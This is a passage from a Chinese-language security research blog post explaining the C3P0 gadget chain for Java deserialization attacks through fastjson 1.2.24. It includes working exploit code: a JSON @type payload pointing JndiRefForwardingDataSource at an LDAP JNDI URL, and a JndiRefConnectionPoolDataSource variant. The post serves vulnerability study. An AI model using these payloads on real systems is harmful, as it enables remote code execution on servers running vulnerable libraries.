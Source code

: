 ![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/setLoginTimeout.png)

这里有非常多的 `getter/setter` 方法，已经是满足作为 fastjson 调用链的条件了，但是对于选择上来说，我们选最简单的 `setLoginTimeout()` 方法，因为它的传参只需要我们传入一个整数即可。

我觉得这里已经可以写 EXP 了，但是看到有其他师傅的文章分析的意思是：还要继续向上找，可能是因为这个 `JndiRefForwardingDataSource` 类是 default 的类，觉得利用面还是不够大吧，我个人觉得从攻击的角度上来说是都可以的，后续在写 EXP 的环节也会把这个写进去。

- 如果要继续网上找的话，还有一个是可以利用的类

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/JndiRefConnectionPoolDataSource.png)

再向上找可能还是可以，还能利用，但已经完全没必要了。因为黑命单加的都是大类，如果简短的链子被 ban 了，再深的链子也是被 ban 的。

#### C3P0 之 JNDI EXP 构造

先导入 fastjson 的包，就先导 1.2.24 的吧，因为 1.2.25 版本的 fastjson 当中就已经把 `com.mchange` 包加入了黑名单里面。

XML

```
<dependency>  
    <groupId>com.alibaba</groupId>  
    <artifactId>fastjson</artifactId>  
    <version>1.2.24</version>  
</dependency>
```

`JndiRefForwardingDataSource` 的 EXP 如下

JAVA

```
package JNDIVul;  
  
import com.alibaba.fastjson.JSON;  
  
// JndiRefForwardingDataSource 类的直接 EXP 调用  
public class JndiForwardingDataSourceEXP {  
    public static void main(String[] args) {  
        String payload = "{\"@type\":\"com.mchange.v2.c3p0.JndiRefForwardingDataSource\"," +  
                "\"jndiName\":\"ldap://127.0.0.1:1230/remoteObject\",\"LoginTimeout\":\"1\"}";  
        JSON.parse(payload);  
    }  
}
```

因为是 default 作用域的类，所以不可以直接 new，这里我们直接用 fastjson 的方式去调

![img](https://drun1baby.top/2022/10/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E4%B9%8BC3P0%E9%93%BE/JndiRefForwardingDataSourceSuccess.png)

`JndiRefConnectionPoolDataSource` 的 EXP 也大同小异，因为这是个 public 为作用域的类，我们可以先通过这种方式测试一下链子的可用性。

JAVA

```
public class JndiRefConnectionPoolDataSourceTest {  
    public static void main(String[] args) throws PropertyVetoException, SQLException {  
        JndiRefConnectionPoolDataSource jndiRefConnectionPoolDataSource = new JndiRefConnectionPoolDataSource();  
        jndiRefConnectionPoolDataSource.setJndiName("ldap://127.0.0.1:1230/remoteObject");  
        jndiRefConnectionPoolDataSource.setLoginTimeout(1);  
    }  
}
```
